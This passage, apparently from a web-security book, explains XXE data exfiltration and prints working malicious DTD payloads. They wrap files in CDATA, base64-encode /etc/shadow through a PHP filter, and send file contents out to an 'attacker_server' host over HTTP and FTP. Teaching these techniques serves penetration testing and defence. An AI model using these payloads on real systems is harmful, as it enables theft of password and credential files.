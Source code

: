 XXE data exfiltration becomes more complicated if the parser is hardened 
against XXE attacks, and if you are trying to read files of specific formats. 
But there are always more ways to bypass restrictions!

Sometimes you’ll want to exfiltrate files that contain XML special characters, such as angle brackets (<>), quotes (" or '), and the ampersand (&). 
Accessing these files directly via an XXE would break the syntax of your DTD 
and interfere with the exfiltration. Thankfully, XML already has a feature 
that deals with this issue. In an XML file, characters wrapped within CDATA
(character data) tags are not seen as special characters. So, for instance, if 
you’re exfiltrating an XML file, you can rewrite your malicious external DTD 
as follows:

1 <!ENTITY % file SYSTEM "file:///passwords.xml">

2 <!ENTITY % start "<![CDATA[">

3 <!ENTITY % end "]]>">

4 <!ENTITY % ent "<!ENTITY &#x25; exfiltrate
'http://attacker_server/?%start;%file;%end;'>">
%ent;
%exfiltrate;


This DTD first declares a parameter entity that points to the file you 
want to read 1. It also declares two parameter entities containing the strings 
"<![CDATA[" and "]]>"2 3. Then it constructs an exfiltration URL that will 
not break the DTD’s syntax by wrapping the file’s contents in a CDATA tag 4. 
The concatenated exfiltrate entity declaration will become the following:

<!ENTITY % exfiltrate 'http://attacker_server/?<![CDATA[CONTENTS_OF_THE_FILE]]>'>

You can see that our payloads are quickly getting complicated. To prevent 
accidentally introducing syntax errors to the payload, you can use a tool such 
as XmlLint (https://xmllint.com/) to ensure that your XML syntax is valid.
Finally, send your usual XML payload to the target to execute the attack:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
 <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
 %xxe;
]>

Another way of exfiltrating files with special characters is to use a PHP 
URL wrapper. If the target is a PHP-based app, PHP wrappers let you convert the desired data into base64 format so you can use it to read XML files 
or even binary files:

<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
%ent;
%exfiltrate;

The File Transfer Protocol (FTP) can also be used to send data directly 
while bypassing special character restrictions. HTTP has many special character restrictions and typically restricts the length of the URL. Using FTP 
instead is an easy way to bypass that. To use it, you need to run a simple 
FTP server on your machine and modify your malicious DTD accordingly. I 
used the simple Ruby server script at https://github.com/ONsec-Lab/scripts/blob/
master/xxe-ftp-server.rb:

<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM
 'ftp://attacker_server:2121/?%file;'>">
%ent;
%exfiltrate;

